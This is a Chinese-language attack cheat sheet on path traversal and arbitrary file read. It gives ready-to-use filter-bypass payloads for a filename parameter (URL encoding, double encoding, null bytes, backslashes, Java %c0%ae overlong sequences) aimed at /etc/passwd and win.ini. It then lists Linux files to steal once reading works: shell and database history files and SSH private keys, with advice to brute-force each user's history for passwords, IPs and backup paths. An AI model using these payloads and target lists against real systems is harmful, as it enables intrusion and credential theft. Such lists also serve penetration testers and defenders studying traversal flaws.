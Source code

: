 ### 绕过思路

可以进行fuzz

1. url编码代替.或者/，如使用%2F代替/
   `?filename=..%2F..%2F..%2F..%2Fetc%2Fpasswd`
2. 二次编码(%25)
   `?filename=..%252F..%252F..%252F..%252Fetc%2Fpasswd`
3. 加入+
   `?filename=.+./.+./bin/redacted.dll`
4. %00
   `?filename=.%00./file.php`
   `/etc/passwd%00.jpg`
5. `\`
   `?filename=..%5c..%5c/windows/win.ini`
6. Java %c0%ae 安全模式绕过
   `?filename=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`

# Linux下的常见利用姿势

### 用户目录下的敏感文件

```
.bash_history 
.zsh_history
.psql_history
.mysql_history
.profile 
.bashrc
.gitconfig
.viminfo

任意文件读取/etc/passwd
提取passwd第一列，即root等一系列用户名
读history：../../root/.bash_history
暴破所有用户的.bash_history：../../../home/§root§/.bash_history
```

历史命令重点关注出现的`密码、路径、配置文件路径、其他关联IP、日志文件、war包、备份文件路径`等等，可进一步读取或利用。
PS：如要下载文件，可能会导致过大文件下载失败，可以使用wget进行下载，比如catanlina.out日志文件、war包、备份文件等等。

### 主机凭证文件

**私钥文件**

```
/root/.ssh/id_rsa  私钥

/root/.ssh/authorized_keys  公钥存储文件
/root/.ssh/id_rsa.keystore
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
```
